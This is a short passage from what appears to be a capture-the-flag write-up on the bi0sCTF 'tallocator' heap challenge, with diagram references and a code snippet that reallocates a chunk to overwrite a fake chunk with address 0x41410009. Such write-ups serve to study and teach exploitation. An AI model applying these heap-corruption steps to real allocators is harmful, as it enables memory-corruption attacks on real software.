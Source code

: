 ![2.png](/images/2024-03-03-bi0sctf-tallocator/2.png)
After the second `secure_tree` this is the situation.
![3.png](/images/2024-03-03-bi0sctf-tallocator/3.png)

Now we reallocate allocation #1 and overwrite into faux chunk writing address 0x41410009 into it at it's offset zero.
```
arr[0x18] = 0;

bi0sctf.secure_talloc(key, 0x28, arr);
```
The state of the list is as shown.
